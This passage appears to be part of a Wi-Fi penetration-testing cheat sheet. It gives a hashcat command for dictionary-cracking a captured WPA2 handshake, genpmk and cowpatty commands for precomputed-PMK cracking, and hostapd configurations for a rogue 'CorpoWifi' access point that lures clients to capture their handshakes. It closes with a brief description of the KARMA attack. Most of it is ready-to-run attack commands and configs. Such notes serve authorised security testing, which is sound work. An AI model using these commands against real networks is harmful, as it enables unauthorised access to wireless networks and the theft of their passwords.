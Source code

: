 Dictionnary attack using hashcat
```
hashcat.exe -m 22000 handshake.hccapx wordlists/rockyou.txt
```

#### Pre Computed PMK
Pre computed PMK (Because PBKDF2 function is time consuming to proceed). You will still need to capture 4 Way handshake for SNonce, ANonce, AP MAC and Client MAC.
  - Require SSID and Passphrase (dictionnary)

```
genpmk -f wordlistPassphrase.txt -s CorpoWifi -d precomputed_PMK
cowpatty -d precomputed_PMK -s CorpoWifi -f wordlistPassphrase.txt
```

<img src="./images/pre_computed.png" width="500"/>


### WPA2 App Less Attack
You will need to have a probing client within the vicinity or range, create a fake access point, wait the client for connect and capture the 4-way handshake.

```
hostapd wpa-psk.conf
```

wpa1-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=TKIP
channel=1
```

wpa2-psk.conf
```
interface=wlan1
driver=nl80211
ssid=CorpoWifi
bssid=00:1C:10:00:00:00
wpa=2
wpa_passphrase=wedontcare
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```

### KARMA Attack
Attacker will look for client probe requests and immediately change the SSID it is broadcasting to match the probe request of the client. Responding to everyone.  
